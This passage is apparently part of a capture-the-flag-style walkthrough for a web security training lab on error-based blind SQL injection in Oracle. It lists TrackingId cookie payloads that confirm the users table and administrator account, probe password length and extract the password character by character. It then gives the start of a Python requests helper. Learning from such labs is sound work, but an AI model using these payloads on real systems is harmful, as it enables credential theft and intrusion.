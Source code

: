4. To verify that the users table exists, send the following query:

`TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`

As this query does not return an error, you can infer that this table does exist. Note that the `WHERE ROWNUM = 1` condition is important here to prevent the query from returning more than one row, which would break our concatenation. 

5. You can also exploit this behavior to test conditions. First, submit the following query:
 
`TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

Verify that an error message is received.
Now change it to:

`TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

Verify that the error disappears. 

6. You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username administrator exists:

`TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Verify that the condition is true (the error is received), confirming that there is a user called administrator.

7. The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:

`TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

This condition should be true, confirming that the password is greater than 1 character in length.

Send a series of follow-up values to test different password lengths. Send:

`TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Then send:

`TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

And so on

8.  The next step is to test the character at each position to determine its value.

Go to Burp Intruder and change the value of the cookie to:

`TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Then send:

`TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Python script:
```python
import requests

url = "https://0a41008404768dd38175bca9001700e7.web-security-academy.net/filter?category=Gifts"
cookies = {"session": "qGFjPJIOkdDlqJPF9OApFEzoqknMBNHn", "TrackingId": "GL48PGItA4XoAQZS"}

def checkPayLoad(payload):
    cookiesPayload = cookies.copy()
    cookiesPayload["TrackingId"] = cookiesPayload["TrackingId"] + payload
    r = requests.get(url, cookies=cookiesPayload)
    if 'Gifts' in r.text:
        return False
    else:  
        return True
```